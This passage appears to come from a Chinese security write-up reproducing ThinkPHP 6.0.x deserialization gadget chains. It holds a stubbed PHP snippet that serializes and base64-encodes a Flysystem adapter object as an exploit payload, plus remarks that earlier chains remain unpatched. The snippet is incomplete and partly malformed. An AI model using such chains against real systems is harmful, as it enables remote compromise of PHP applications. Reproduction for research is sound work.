 ```

abstract class AbstractAdapter
{
}


namespace League\Flysystem\Adapter;

use League\Flysystem\Cached\Storage\Adapter;
use League\Flysystem\Config;

class Local extends AbstractAdapter
{

    public function has($path)
    {
    }

    public function write($path, $contents, Config $config)
    {
    }
}

$a = new Local();
$b = new Adapter($a);
echo base64_encode(serialize($b));

```



之前复现过6.0x的thinkphp反序列化,后面三条链子并没有修,还是能够打通的,就没有写分析了这里主要是去复现了新的toString的Gadget,触发点还是有几个,这里没有写完,只要找到操作可控字符串的点就能触发

后三条链的具体的分析可以到https://www.anquanke.com/post/id/258567这里去看

参考链接

https://xz.aliyun.com/t/9310

https://www.anquanke.com/post/id/258567

